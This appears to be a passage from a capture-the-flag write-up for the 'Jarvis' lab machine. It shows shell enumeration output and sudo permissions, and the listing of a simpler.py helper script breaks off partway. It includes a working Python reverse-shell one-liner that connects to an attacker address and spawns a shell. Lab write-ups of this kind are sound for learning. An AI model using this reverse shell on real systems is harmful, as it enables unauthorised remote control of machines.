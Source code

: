     drwxr-xr-x 3 root   root   4096 Mar  2  2019 ..
    lrwxrwxrwx 1 root   root      9 Mar  4  2019 .bash_history -> /dev/null
    -rw-r--r-- 1 pepper pepper  220 Mar  2  2019 .bash_logout
    -rw-r--r-- 1 pepper pepper 3526 Mar  2  2019 .bashrc
    drwxr-xr-x 2 pepper pepper 4096 Mar  2  2019 .nano
    -rw-r--r-- 1 pepper pepper  675 Mar  2  2019 .profile
    drwxr-xr-x 3 pepper pepper 4096 Mar  4  2019 Web
    -r--r----- 1 root   pepper   33 Mar  5  2019 user.txt
    ---
    os-shell> sudo -l
    command standard output:
    ---
    Matching Defaults entries for www-data on jarvis:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User www-data may run the following commands on jarvis:
        (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
    ---

In oder to have a better shell, we use a python reverseshell:

    export RHOST="10.10.15.31";export RPORT=4444;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

    $ sudo -l
    Matching Defaults entries for www-data on jarvis:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User www-data may run the following commands on jarvis:
        (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
    $ sudo -u pepper /var/www/Admin-Utilities/simpler.py


The `simpler.py` script is the following:

    #!/usr/bin/env python3
    from datetime import datetime
    import sys
    import os
    from os import listdir
    import re

    def show_help():
        message='''
    ********************************************************
    * Simpler   -   A simple simplifier ;)                 *
    * Version 1.0                                          *
    ********************************************************
    Usage:  python3 simpler.py [options]

    Options:
        -h/--help   : This help
        -s          : Statistics
        -l          : List the attackers IP
        -p          : ping an attacker IP
        '''
        print(message)

